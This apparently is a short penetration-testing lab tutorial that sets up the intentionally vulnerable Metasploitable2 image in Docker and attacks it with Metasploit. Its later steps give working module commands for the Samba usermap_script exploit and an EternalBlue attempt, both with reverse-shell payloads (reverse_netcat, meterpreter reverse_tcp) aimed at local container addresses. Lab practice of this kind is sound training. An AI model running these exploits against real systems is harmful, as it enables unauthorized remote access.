 # 1. Preparation
## Use Docker to run Metasploit

### Check Docker status
`docker --version`

# 2. Build attack target
### Download Metasploit2 
`docker pull tleemcjr/metasploitable2`

### Run Metasploit2 in Docker
`docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2`
docker run -d --name vulnerable -p 445:445 -p 21:21 -p 22:22 -p 80:80 tleemcjr/metasploitable2 bash -c "/bin/services.sh && tail -f /dev/null"

docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' vulnerable  # get Target IP


- -p 445:445：開放 SMB（檔案共享漏洞）
- -p 21:21：開放 FTP（容易被暴力破解）
- -p 22:22：開放 SSH（可能存在弱密碼）
- -p 80:80：開放 Web 服務（可能存在漏洞）

### Check Metasploit2 in Docker status
`docker ps`
docker rm -f vulnerable  # if docker exist, delete it.
docker start vulnerable


# 3. Run attacker
### Run Metasploit in Docker
`docker run --rm -it metasploitframework/metasploit-framework  # delete when exit docker`

`docker run -it --name metasploit metasploitframework/metasploit-framework  # keep docker container`
`docker start -ai metasploit  # run docker with next time`
`help  # check metasploit status`

# 4. Scan target system
use exploit/multi/samba/usermap_script


msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 172.17.0.2
msf6 auxiliary(scanner/smb/smb_version) > run

## exploit
use exploit/multi/samba/usermap_script
set RHOSTS 172.17.0.2
check
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 172.17.0.3
exploit



msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 172.17.0.2
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
set PAYLOAD cmd/unix/reverse_netcat
